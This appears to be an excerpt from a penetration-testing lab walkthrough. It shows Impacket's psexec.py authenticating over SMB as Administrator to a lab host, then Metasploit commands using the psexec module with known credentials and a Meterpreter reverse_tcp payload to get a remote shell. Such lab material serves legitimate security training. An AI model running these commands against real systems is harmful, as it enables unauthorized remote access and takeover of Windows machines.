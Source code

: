 - In a new terminal, use `psexec.py` to try SMB authentication

```bash
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
```

```bash
python3 psexec.py Administrator@10.2.26.45
```

![psexec - elevated cmd](.gitbook/assets/image-20230424121556797.png)

- Obtain a `Meterpreter` session with MSF

```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 10.2.26.45
set SMBUser Administrator
set SMBPass vagrant
set payload windows/x64/meterpreter/reverse_tcp
run
```
